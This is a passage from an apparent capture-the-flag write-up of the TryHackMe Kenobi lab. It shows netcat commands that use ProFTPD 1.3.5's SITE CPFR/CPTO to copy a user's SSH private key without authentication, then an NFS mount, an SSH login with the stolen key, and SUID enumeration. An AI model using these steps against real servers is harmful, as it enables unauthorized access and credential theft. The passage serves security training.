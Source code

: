   log.txt

Get the file with smbget `smbget -R smb://$ip/anonymous`
- What port is FTP running on?

  21
- What mount can we see?

  /var

## Task 3: Gain initial access with ProFtpd

From nmap scan we discovered that proFTD 1.3.5 is used here. Search for any known exploits in exploit-db. Got 3 exploits out of which 1 is [RCE](https://www.exploit-db.com/exploits/36803).(A [new RCE](https://www.exploit-db.com/exploits/49908) is also released recently). If you look at the exploits it is using `SITE CPFR` and `SITE CPTO` commands. This commands can copy files/directories from one place to another on the server without authentication. Using this we will get the ssh private keys for kenobi.
```console
┌──(kali㉿kali)-[~/THM/kenobi/exploits]
└─$ nc $ip 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.206.1]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
/var is mounted ar port 111 of kenobi machine. So we are copying the key to that directory. Now we mount the kenobi machine to ours to get the keys.
```
mkdir /mnt/kenobiNFS
mount $ip:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```
Now login with the key `ssh -i id_rsa kenobi@$ip`. And get the user flag.
- What is Kenobi's user flag (/home/kenobi/user.txt)?

  d0b\******899

## Task 4: Privilege Escalation with Path Variable Manipulation
Find the SUID enabled files
```console
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
```